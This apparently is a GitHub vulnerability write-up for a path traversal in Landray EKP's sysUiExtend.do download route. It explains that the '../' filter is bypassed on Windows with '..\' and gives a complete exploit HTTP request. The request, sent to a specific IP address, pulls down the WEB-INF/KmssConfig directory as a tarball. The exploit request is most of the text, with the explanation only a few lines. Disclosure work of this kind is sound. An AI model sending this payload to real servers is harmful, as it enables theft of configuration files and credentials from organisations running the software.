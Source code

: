 The /sys/ui/sys_ui_extend/sysUiExtend.do route is defined in `WEB-INF/KmssConfig/sys/ui/spring-mvc.xml`
and is handled by com.landray.kmss.sys.ui.actions.SysUiExtendAction class
<img width="1098" alt="image" src="https://github.com/night-0p/anh/assets/54882616/59cec375-92e2-4e53-b905-640aa5dcbd07">
Tracked to the SysUiExtendAction class, after accepting the `id` parameter, use ../ to filter, but in the windows environment, you can use ..\ to bypass.
Any files specified including folders will eventually be downloaded as a tarball.
<img width="1111" alt="image" src="https://github.com/night-0p/anh/assets/54882616/71208c2a-8b35-4e9a-b986-b62c527c0774">
<img width="944" alt="image" src="https://github.com/night-0p/anh/assets/54882616/9c94785a-a156-40c9-8ced-7ec0280d33db">
<img width="1004" alt="image" src="https://github.com/night-0p/anh/assets/54882616/a3345f2a-52d2-41e5-b6d9-d15ecf1602d7">

exp：
```
POST /api///sys/ui/sys_ui_extend/sysUiExtend.do?method=download HTTP/1.1
Host: 47.101.128.32
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/ap
ng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=9684FFECC20A781C822BEB3C0FEB4FD1
Connection: close
Content-Length: 41
Content-Type: application/x-www-form-urlencoded

id=..\..\..\..\ekp\\WEB-INF\\KmssConfig\\
```

Then we will get the following file:  
<img width="973" alt="image" src="https://github.com/night-0p/anh/assets/54882616/68e1f587-110a-4df6-8b9e-af3157db6544">
<img width="705" alt="image" src="https://github.com/night-0p/anh/assets/54882616/6059dd28-ae4d-494c-a40e-3946ace8d3c6">


